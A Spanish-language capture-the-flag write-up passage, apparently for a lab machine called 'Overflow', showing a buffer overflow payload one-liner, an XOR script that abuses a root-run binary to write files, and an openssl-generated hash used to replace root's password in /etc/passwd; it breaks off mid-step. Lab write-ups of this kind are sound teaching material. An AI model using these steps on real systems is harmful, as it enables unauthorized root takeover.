 ```py
python3 -c 'print("A"*44 + "\x5b\x58\x55\x56" )'
```

Entonces, ahora que tenemos control de este binario, podemos hacer un programa que escriba por nosotros en algun archivo que este controlado por root. Nos desplazamos a /tmp y creamos el archivo file.txt y el del programa encrypt.py

```py
#!/usr/bin/python3

plaintext_file = "/tmp/file.txt"
output_encrypted_file = "/tmp/file.encrypted"

plaintext = open(plaintext_file, "rb").read()
output = open(output_encrypted_file, "wb")

for line in plaintext:
    output.write(bytes([line ^ 0x9b]))
```

Ahora sacamos la contrasena de openssl 

```s
openssl passwd
DAerOppJInwQI
```

Se lo modificamos al campo de root como esta en la imagen:

![Root new password](/assets/images/Overflow/root_pass.png)

Ahora le cambiaremos el nombre al file.txt a passwd y modificaremos el codigo de la manera siguiente:
